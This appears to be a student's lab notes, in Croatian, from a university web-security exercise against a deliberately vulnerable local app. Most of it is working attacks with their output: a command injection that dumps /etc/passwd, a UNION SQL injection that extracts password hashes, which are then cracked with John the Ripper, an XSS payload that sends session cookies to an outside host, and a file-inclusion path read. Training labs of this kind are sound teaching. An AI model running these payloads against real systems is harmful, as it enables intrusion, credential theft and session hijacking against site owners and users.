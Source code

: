 202206241432
Tags: 
# SRS 3 lab
## Command injectoin
- naredba koristena: `1 | cat /etc/passwd`
- ispis: 
```bash
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/bin/false
    mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

## SQL injection
- Umetnuta naredba: 
- komanda, **obavezno** je da ne ide znak `'` na kraju
```sql
sth' OR '1'='1' UNION SELECT last_name, password from users where last_name='Picasso
```
- mogao se bilokoji stupac koristiti umjesto last_name u drugoj tablici, mora samo druga tablica imati dva atributa
- posto ujedinjujemo vec sa tablicom koja ima dva stupca
    1. Dobijemo hash 0d107d09f5bbe40cade3de5c71e9e9b7
    2. `echo "0d107d09f5bbe40cade3de5c71e9e9b7" > hashes.txt`
    3. `cd ~srs/srs-lab/Lab3`
    4. `john/run/john --format=raw-md5 ~/hashes.txt`
    5. **FINALNA SIFRA**: `letmein`

## XSS
1. promjeni u HTML-u maxlenght na npr. 2000
2. upisati naredbu <script>alert(document.cookie </script> za ispisati sve korisnicke kolacice
	- `PHPSESSID=nt10dcgbutrkl5h4javjcbe012`
1. kako poslati na remove server
	1. isti postupak oko maxlenghta
	2. upisati naredbu 
	```html
<script>
		document.write('<img src="http://public.tel.fer.hr/srs?cookie=' + document.cookie + '" />')
</script>
	```
	
1. za reflected sam upisao identicnu stvar kao u koraku 2. u input field
	1. konacni url: http://172.17.0.2/vulnerabilities/xss_r/?name=%3Cscript%3E+%09%09document.write%28%27%3Cimg+src%3D%22http%3A%2F%2Fpublic.tel.fer.hr%2Fsrs%3Fcookie%3D%27+%2B+document.cookie+%2B+%27%22+%2F%3E%27%29+%09%3C%2Fscript%3E#

## File inclusion
1. promjeniti url u http://172.17.0.2/vulnerabilities/fi/?page=/etc/passwd 
2. ovo je moguće izvesti jer prvo server dohvati navedenu datoteku sa server preko url-a pomoću GET-a i onda ju ispiše na ekran
3. kako zaštiti
	- Treba validirati input od korisnika i nikad direktno koristiti varijable koje korisnik može promjeniti
	- najjednostavnije rješenje da je 'hardkodiramo' sve datoteke koje ćemo koristiti u samu stranicu.
---
# References
- [[srs_lv_3[1].pdf]]